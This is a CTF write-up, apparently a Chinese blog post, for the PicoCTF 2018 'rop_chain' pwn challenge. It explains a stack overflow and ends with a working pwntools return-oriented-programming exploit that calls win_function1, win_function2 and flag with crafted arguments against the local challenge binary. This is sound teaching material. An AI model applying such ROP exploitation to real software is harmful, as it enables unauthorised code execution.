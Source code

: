 ```yaml
---
title: 'PicoCTF_2018_rop_chain'
date: 2023-12-30 13:00:00 +0800
categories: [ctf,pwn]
tags: ['函数参数劫持','整数型绕过','`\x00`绕过`len()`']
---
```

<img src="../assets/img/old_imgs/image-20231223201523448.png" alt="image-20231223201523448" style="zoom:150%;" />

1. 函数`vuln`中存在栈溢出

![image-20231223201440814](../assets/img/old_imgs/image-20231223201440814.png)

2. `flag`是后门函数,只要满足`win1 && win2`和`a1 = 0xDEADBAAD`就可以得到`flag`

![image-20231223201807526](../assets/img/old_imgs/image-20231223201807526.png)

3.`win1 & win2`存在于`.bss`段上,但是可以利用`win_function1 & win_function2`两个函数构造

<img src="../assets/img/old_imgs/image-20231223202105353.png" alt="image-20231223202105353"  />

> win1

<img src="../assets/img/old_imgs/image-20231223202117211.png" alt="image-20231223202117211" style="zoom:67%;" />

> win2

```python
from pwn import *
#context.log_level = 'debug'
#io = gdb.debug('./PicoCTF_2018_rop_chain','break *080485CB')
io = process('./PicoCTF_2018_rop_chain')
offset = 0x18+4
elf = ELF('./PicoCTF_2018_rop_chain')
payload1 = b'A'*offset+p32(elf.sym['win_function1'])+p32(elf.sym['win_function2'])+p32(elf.sym['flag'])+p32(0xBAAAAAAD)+p32(0xDEADBAAD)
#溢出专跳到`win_function1`初始化win1,再到`win_function2`同时传入覆盖`win_function2`的参数a,最后跳转到`flag`函数相同操作
io.sendlineafter(b'Enter your input>',payload1)
io.interactive()
```
